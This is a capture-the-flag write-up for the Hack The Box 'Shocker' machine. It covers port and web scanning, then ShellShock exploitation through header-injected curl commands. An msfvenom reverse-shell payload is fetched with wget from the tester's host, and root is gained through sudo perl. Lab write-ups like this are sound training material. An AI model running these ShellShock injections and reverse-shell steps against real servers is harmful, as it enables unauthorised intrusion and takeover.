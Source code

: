 # [Shocker](https://app.hackthebox.eu/machines/108)

Start with `nmap`:

```bash
# find open TCP ports
sudo masscan -p1-65535 10.10.10.56 --rate=1000 -e tun0 > masscan.txt
tcpports=$(cat masscan.txt | cut -d ' ' -f 4 | cut -d '/' -f 1 | sort -n | tr '\n' ',' | sed 's/,$//')
# TCP deep scan
sudo nmap -sS -p $tcpports -oA tcp --open -Pn --script "default,safe,vuln" -sV 10.10.10.56 &
# TCP quick scan
sudo nmap -v -sS -sC -F --open -Pn -sV 10.10.10.56
# UDP quick scan
sudo nmap -v -sU -F --open -Pn -sV --version-intensity 0 10.10.10.56
```

The TCP quick scan returns the following:

![nmap1](./shocker/nmap1.png)

Start the following web scanner:

```bash
nikto -h http://10.10.10.56/ -C all --maxtime=120s --output=nikto.txt
```

![nikto1](./shocker/nikto1.png)

Browse to the site manually:

```bash
firefox http://10.10.10.56/
```

![web1](./shocker/web1.png)

Site looks custom. Start a directroy scanner looking for `php` pages:

```bash
ulimit -n 8192 # prevent file access error during gobuster scanning
gobuster dir -t 50 -r -q -z -o gobuster.misc.txt -x php \
  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \
  -a 'Mozilla/5.0' \
  -u http://10.10.10.56/ &
```

Looking at the HTML source does not show anything interesting:

![web2](./shocker/web2.png)

The web directory scanner does not show anything interesting... The Apache version of 2.4.18 does not have any helpful exploits either... The full `nmap` scan returns another open port:

![nmap2](./shocker/nmap2.png)

SSH is not helpful unless a username is known for a possible bruteforce... Maybe the target hostname of `shocker` is a hint at the ShellShock vulnerability?

- https://www.exploit-db.com/docs/48112

> GNU Bash versions 1.14 through 4.3 contain a flaw that processes  commands placed after function definitions in the added environment  variable, allowing remote attackers to execute arbitrary code via a  crafted environment which enables network-based exploitation. Critical instances where the vulnerability may be exposed include: 
>
> - Apache HTTP Server using mod_cgi or mod_cgid scripts either written in bash,  or spawn GNU Bash subshells, or on any system where the /bin/sh interface is implemented using GNU Bash.
> - Override or Bypass  ForceCommand feature in OpenSSH sshd and limited protection for some Git and Subversion deployments used to restrict shells and allows arbitrary command execution capabilities. This data path is vulnerable on systems where the /bin/sh interface is implemented using GNU Bash.
> - Allow arbitrary commands to run on a DHCP client machine

Try looking for any script files in `cgi-bin`:

```bash
ulimit -n 8192 # prevent file access error during gobuster scanning
gobuster dir -t 50 -r -q -z -o gobuster.cgi.txt -x php,cgi,sh,py,rb,pl \
  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \
  -a 'Mozilla/5.0' \
  -u http://10.10.10.56/cgi-bin/ &
```

And this returns an interesting value:

```
/user.sh (Status: 200)
```

Try connecting:

```bash
curl http://10.10.10.56/cgi-bin/user.sh
```

![curl1](./shocker/curl1.png)

Looks like some script is running. Try injecting a random command using ShellShock with an HTTP header:

```bash
# listen to catch the ping
sudo tcpdump -i tun0 icmp
# see if the target will execute the ping
curl -v http://10.10.10.56/cgi-bin/user.sh -H 'bubba: () { :;}; /bin/ping -c 1 10.10.14.25'
```

And this does return a ping from the target! Use this to get a shell on the target:

```bash
# generate and host payload
msfvenom -p linux/x86/shell_reverse_tcp \
         LHOST=10.10.14.25 \
         LPORT=6969 \
         -f elf \
         -o bubba.elf
sudo python3 -m http.server 80
nc -nvlp 6969
# upload payload to target
curl -v http://10.10.10.56/cgi-bin/user.sh \
  -H "bubba: () { :;}; /usr/bin/wget -O /tmp/bubba.elf http://10.10.14.25/bubba.elf"
# make payload executable
curl -v http://10.10.10.56/cgi-bin/user.sh \
  -H "bubba: () { :;}; /bin/chmod +x /tmp/bubba.elf"
# execute payload
curl -v http://10.10.10.56/cgi-bin/user.sh \
  -H "bubba: () { :;}; /tmp/bubba.elf &"  
```

And this gets a shell with `user.txt`:

![user1](./shocker/user1.png)

After connecting, the user `shelly` has an interesting Sudo permission:

![user2](./shocker/user2.png)

This can be used to get a shell as `root` easily:

- https://gtfobins.github.io/gtfobins/perl/

```bash
sudo /usr/bin/perl -e 'exec "/bin/sh";'
```

![root1](./shocker/root1.png)

